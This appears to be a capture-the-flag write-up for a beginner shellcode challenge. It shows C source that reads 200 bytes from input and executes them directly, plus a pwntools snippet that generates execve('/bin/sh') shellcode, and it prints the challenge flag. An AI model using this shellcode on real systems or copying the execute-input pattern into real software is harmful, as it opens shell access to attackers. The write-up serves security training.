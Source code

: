 # $hellc0de-0x1

## Write-up

- Source code :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define CODE_SIZE 200

void disable_buffering(void);

char code[CODE_SIZE] = { '\0' };

int main(int argc, char *argv[]) {
  disable_buffering();

  printf("Enter your shellcode : ");

  read(0, code, CODE_SIZE);

  (*(void(*)()) code)();

  return EXIT_SUCCESS;
}

void disable_buffering(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
}
```

- We can basically run any code that fits in 200 bytes
- We can use the `shellcraft` module from `pwntools` to generate shellcode that gives us a shell :  

```python
shellcode = asm(
    shellcraft.execve("/bin/sh", 0, 0)
)
```

- Full automated exploit with pwntools [here](solve.py)

## Flag

`shellmates{sHellC0d3_bAByyYYYyy}`
